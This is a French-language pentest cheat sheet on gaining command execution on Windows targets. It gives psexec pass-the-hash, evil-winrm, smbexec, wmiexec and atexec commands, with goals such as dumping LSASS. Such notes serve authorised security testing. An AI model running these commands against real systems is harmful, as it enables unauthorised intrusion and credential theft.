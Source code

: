 # Exécution de commandes

> Commandes pour réaliser de l'exécution de commandes sur une machine cible
>
> Objectifs :
>
> - exécuter des commandes sur le serveur
> - lire des fichiers internes au serveur
> - dump LSASS 
> - exécuter winPeas
> - exécuter des .exe (e.g. SharpHound pour utiliser BloodHound)



### PsExec

> Prérequis : Identifiants d'un utilisateur / hash NTLM (au moins admin local car nécessité d'écrire dans le share ADMIN$)
>

```bash
# Sur une machine client
$ impacket-psexec 'USERNAME:PASSWORD@<IP_CLIENT>'
# Hash LM vide : aad3b435b51404eeaad3b435b51404ee / Remplacer par hash LM s'il y en a un
$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:<HASH_NT> 'USERNAME@<IP_CLIENT>'
```



### WinRM (evil-winrm)

> Prérequis : port 5985 / 5986 d'ouvert / un compte utilisateur
>
> Lorsque ce port est ouvert, possibilité d'obtenir un shell restreint via WinRM
>

```bash
$ evil-winrm -i <IP_VICT> -u <USERNAME> -p <PASSWORD> 

# Authentification avec certificat
$ evil-winrm -S -i <IP_VICT> -k <PRIV.KEY> -c <CERT.cer>
```



### SMBExec

> Prérequis : A creuser
>

```bash
$ python3 /usr/share/doc/python3-impacket/examples/smbexec.py '<DOMAIN.COM>/<USER>:<PASSWORD>?@<IP_CIBLE>'               
```



### WmiExec

> Prérequis : A creuser
>

```bash
$ python3 /usr/share/doc/python3-impacket/examples/wmiexec.py '<DOMAIN.COM>/<USER>:<PASSWORD>?@<IP_CIBLE>'               
```



### AtExec

> Prérequis : A creuser
>

```bash
# Commande : e.g. whoami
$ python3 /usr/share/doc/python3-impacket/examples/atexec.py '<DOMAIN.COM>/<USER>:<PASSWORD>?@<IP_CIBLE>' <COMMANDE>
```

